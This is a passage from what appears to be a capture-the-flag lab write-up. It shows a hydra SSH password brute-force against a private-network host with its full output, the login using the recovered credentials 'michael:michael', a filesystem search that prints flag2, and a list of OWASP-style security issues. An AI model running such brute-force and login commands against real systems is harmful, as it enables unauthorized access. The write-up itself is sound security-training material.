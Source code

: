   ```

Est. Total Words: 3
Est. Total Size: 24.0B

Running time (seconds): 0
Word count: 3

------ OUTPUT COMPLETE ------
```
- We will use the wordlist with hydra.
```bash
root@Kali:~# hydra -l michael -P michaelwordlist.txt 192.168.1.110 -t 4 ssh -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-06 21:53:32
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking ssh://192.168.1.110:22/
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "MICHAEL" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "michael" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target 192.168.1.110 - login "michael" - pass "Michael" - 3 of 3 [child 2] (0/0)
[22][ssh] host: 192.168.1.110   login: michael   password: michael
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-06 21:53:35
```
- Hydra confirms the ssh credentials of `michael:michael` that we can now use to try and login.
```
root@Kali:~# ssh michael@192.168.1.110
michael@192.168.1.110's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Tue Aug  3 16:38:01 2021 from 192.168.1.90
michael@target1:~$ 
```
  - After a quick find command the flag was found. 
```
michael@target1:~$ find / -type f -name flag2.txt -print 2>/dev/null
/var/www/flag2.txt
michael@target1:~$ cat /var/www/flag2.txt 
flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
```
>**Security Issues**
>
>> - [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)
>> - [Security Misconfiguration](https://owasp.org/www-project-top-ten/2017/A6_2017-Security_Misconfiguration)
>> - [Credential Reuse](https://docs.rapid7.com/metasploit/reusing-credentials/)
>> - [Weak Password](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)
# Finding Flag3
  